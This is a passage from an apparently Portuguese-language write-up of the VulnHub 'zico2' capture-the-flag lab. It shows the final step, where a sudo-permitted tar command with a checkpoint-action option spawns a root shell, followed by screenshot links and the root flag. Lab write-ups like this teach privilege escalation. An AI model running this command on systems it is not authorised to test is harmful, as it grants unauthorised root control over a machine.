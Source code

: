 
### Comando "*tar*"

Vamos utilizar o comando tar para escalar

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](/assets/img/Vulnhub/zico2/root-shell.png)


# Usuario "root"

**Excelente. I am gROOT!

![](/assets/img/Vulnhub/zico2/root-gROOT.png)


# Flag "root"

Conseguimos pegar a flag de root

![](/assets/img/Vulnhub/zico2/root-flag.png)


# Bonus 

